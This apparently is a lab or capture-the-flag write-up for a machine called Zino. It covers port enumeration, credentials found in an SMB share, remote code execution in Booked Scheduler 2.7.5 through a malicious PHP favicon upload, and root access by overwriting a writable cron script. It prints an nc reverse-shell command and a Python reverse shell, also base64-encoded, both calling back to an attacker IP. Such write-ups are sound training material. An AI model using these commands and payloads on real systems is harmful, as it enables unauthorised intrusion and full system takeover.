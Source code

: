 # Zino

### Enumeration

```
...
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
8003/tcp open  http        Apache httpd 2.4.38
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-02-05 21:02  booked/
|_
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Index of /
...
```

```
$ smbmap -H 192.168.210.64
$ smbclient \\\\192.168.210.64\\zino
misc.log -> admin:[REDACTED]
```

### Initial Access

Login with that credential. -> [http://192.168.210.64:8003/booked/](http://192.168.210.64:8003/booked/)

admin: \[REDACTED]

**Booked Scheduler 2.7.5 - Remote Command Execution Without Metasploit -**&#x20;

https://github.com/F-Masood/Booked-Scheduler-2.7.5---RCE-Without-MSF

> Navigate to manage\_theme.php page.
>
> Under Favicon section, upload your malicious php script e.g. I am uploading a file rce.php.
>
> Navigate to http://192.168.210.64:8003/booked/Web/custom-favicon.php

[https://www.revshells.com/](https://www.revshells.com) - PHP Cmd

I used php cmd shell. I executed this command:

```
nc -e /bin/bash 192.168.49.210 22
```

### PrivEsc

```
$ cat /etc/crontab
...
*/3 *   * * *   root    python /var/www/html/booked/cleanup.py

-rwxrwxrwx 1 www-data www-data 164 Apr 28  2020 /var/www/html/booked/cleanup.py
```

**Base64 Encoded:** `import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.210",22));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")`

```
echo aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE5Mi4xNjguNDkuMjEwIiwyMikpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtpbXBvcnQgcHR5OyBwdHkuc3Bhd24oIi9iaW4vYmFzaCIp | base64 -d > /var/www/html/booked/cleanup.py
```
